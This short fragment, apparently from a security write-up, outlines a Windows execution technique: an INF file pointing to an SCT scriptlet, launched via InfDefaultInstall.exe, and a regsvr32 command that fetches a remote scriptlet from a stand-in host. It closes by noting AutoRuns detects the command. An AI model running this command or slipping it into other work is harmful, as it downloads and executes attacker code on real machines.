

In the end, process is as follows:
Create INF file, unregister, and point to sct file
Launch INF file using InfDefaultInstall.exe
regsvr32.exe usage
regsvr32.exe /s /n /u /i:https://shady.com/file.sct scrobj.dll


Full regsvr command detected in AutoRuns